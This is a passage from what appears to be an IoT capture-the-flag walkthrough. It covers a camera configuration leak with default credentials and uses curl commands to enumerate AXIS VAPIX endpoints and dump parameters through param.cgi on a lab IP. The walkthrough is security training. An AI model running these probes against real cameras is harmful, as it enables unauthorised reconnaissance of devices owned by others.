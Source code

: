 ```
rtsp://192.168.1.100:554/audio
```

> 🏁 **FLAG #3 FOUND!**
> **Flag**: FLAG{S***********4}
> **Learning Objective**: Sensitive data in configuration files
> **OWASP IoT**: #6 - Insufficient Privacy Protection

**Security Issues Identified:**
1. Credentials in URLs (admin:admin, root:pass)
2. Authentication tokens exposed
3. Internal IP addresses revealed
4. File shouldn't be publicly accessible

### AXIS VAPIX API Exploitation

#### Understanding VAPIX
VAPIX is AXIS's HTTP-based API for camera control. It's commonly vulnerable because:
- Developers assume it's "hidden"
- Often lacks proper authentication
- Contains debug functionality
- Uses predictable endpoint names

```bash
# Test common VAPIX endpoints
# Why: AXIS cameras have standard API structure
for endpoint in param.cgi admin.cgi pwdgrp.cgi users.cgi io/port.cgi; do
    echo "[*] Testing: /axis-cgi/$endpoint"
    curl -s -I "http://192.168.1.132/axis-cgi/$endpoint" | head -1
done
```

**Expected Output:**
```
[*] Testing: /axis-cgi/param.cgi
HTTP/1.1 200 OK
[*] Testing: /axis-cgi/admin.cgi
HTTP/1.1 401 Unauthorized
[*] Testing: /axis-cgi/pwdgrp.cgi
HTTP/1.1 200 OK
[*] Testing: /axis-cgi/users.cgi
HTTP/1.1 401 Unauthorized
[*] Testing: /axis-cgi/io/port.cgi
HTTP/1.1 404 Not Found
```

#### Exploiting param.cgi

```bash
# Test param.cgi functionality
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list"
```

**Expected Output:**
```
root.Brand.Brand=AXIS
root.Brand.ProdFullName=AXIS Network Camera
root.Brand.ProdNbr=P1435-LE
root.Brand.WebURL=http://www.axis.com
```
